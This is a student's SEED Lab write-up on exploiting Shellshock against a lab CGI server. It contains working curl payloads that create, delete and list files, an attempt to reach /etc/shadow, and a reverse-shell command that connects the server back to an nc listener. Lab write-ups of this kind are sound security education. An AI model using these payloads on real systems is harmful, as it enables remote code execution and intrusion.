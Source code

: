 ## Task 3(c): Shellshock & Creating A File
Get the server to create a file inside the ```/tmp``` folder. Using ```docksh (container ID)``` verify.
\
In order to create a file we can use ```/bin/touch``` along with the destination and file name in the format that follows. ```curl -e '() { :;}; echo "Content-Type: text/plain"; echo; /bin/touch  /tmp/test.txt' -v  http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```. It is possible to ```docksh (Container ID)``` to check within the ```/tmp``` directory or we can use a command similar to the approach in Task 3(a).


## Task 3(d): Shellshock & Deleting A File
Get the server to delete the file that you just created inside the ```/tmp``` folder.
\
Using a similar approach as the previous task we can use ```/bin/rm``` and a file location to remove files. In order to remove the file previously created ```test.txt``` we will use ```curl -e '() { :;}; echo "Content-Type: text/plain"; echo; /bin/rm /tmp/test.txt' -v  http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```. Just as before we can check through ```docksh``` and then looking into the folder or by using ```curl -e '() { :;}; echo "Content-Type: text/plain"; echo; /bin/ls /tmp' -v  http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```. This attack is success and very interesting that you can do most bash commands through ```/bin/*/``` and a location. This is surprising and seems extremely vulnerable and I am looking forward to next doing privileged files.


## Task 3(e): Shellshock & Reading A Privileged File
(Try) to “steal” the shadow file ```/etc/shadow``` from the server.
\
I was unable to steal the shadow file. Although I was not able to steal the file, I believe that there is a way using Set-UID inputs on the vulnerable ```bash_shellshock```. I have been trying to change ownership of the file through ```sudo chown www-data /etc/shadow``` but cant figure out the syntax in bash curl commands in order to complete this. Along with this I attempted to use a ```sudo``` user within the curl requests but that did not get me anything in return. I also think that there is a way to access the privileged files through changing the effective user id as we can currently see what are id is. Without changing are user id or group id that is currently ```uid=33(www-data) gid=33(www-data) groups=33(www-data)``` it does not seem to be possible.


# Task 4: Getting a Reverse Shell via Shellshock
In this task, you need to demonstrate that you can get a reverse shell from the victim (the web server) back to the attacker’s machine using the Shell-shock attack.
\
I was capable of getting a reverse shell by using two different terminals and running separate commands on each. The more simple command was ```nc -nlv 9090``` which is telling my SEED VM to listen on ```port 9090``` for a connection request. The second and more complicated command is sent from inside the ```02_shellshock``` folder and is ```curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1' http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```. After running this command, using the first terminal window that was awaiting connection request we can now use bash from outside the webserver container. This is extremely interesting and we can return items such as ```whoami = www-data``` or any of the previously completed task in task 3 without having to web request in. Although I could not get ```sudo``` to work so accessing a root owned document was not possible.   
